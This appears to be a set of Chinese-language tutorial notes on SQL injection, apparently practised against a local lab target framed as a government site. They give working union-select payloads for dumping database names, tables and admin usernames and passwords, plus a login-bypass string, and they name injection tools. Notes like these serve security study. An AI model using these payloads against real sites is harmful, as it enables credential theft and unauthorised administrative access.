 - 常规操作

判断注入点 and 1=1 and 1=2

判断字段数量 order by 5

判断可显字段 union select 1,2,3,4,5
MySQL中在执行联合查询时，后面的查询语句不必非要指定数据表名，这点区别于Access
也可以：
http://192.168.80.128/info_show.php?info_id=142 and 1=2 union select 1,2,3,4,5

- 爆出敏感信息

爆出当前用户名和数据库名
union select 1,user(),database(),4,5

爆出govcn数据库中包含的数据表
union select 1,table_name,3,4,5 from information_schema.tables where table_schema="govcn"

通过group_concat()函数可以显示字段中的所有内容

爆字段名
union select 1,column_name,3,4,5 from information_schema.columns where table_name='admin'

爆用户名和密码
union select 1,username,password,4,5 from admin
union select 1,unhex(hex(username)),unhex(hex(password)),4,5 from admin
利用unhex(hex())函数进行编码转换，解决网站编码不一致导致的问题

7a57a admin md5

### 注入工具的使用

穿山甲Pangolin 胡萝卜Havij

### 密码绕过漏洞

目标网站
NPMserv中的政府网站，后台入口页面glzx.php

验证用户名和密码的语句
select * from admin where username = '$username' and password='$mpassword'

绕过语句
1' or 1=1 or '1

将绕过语句代入到查询语句中
select * from admin where username = '1' or 1=1 or '1' and password='$mpassword'

逻辑表达式中，and的优先级高于or

### sqlmap的安装与使用

sqlmap是目前功能最为广泛的注入类工具

sqlmap是开源软件，被集成于Kali Linux,官网www.sqlmap.org

sqlmap基于python编写
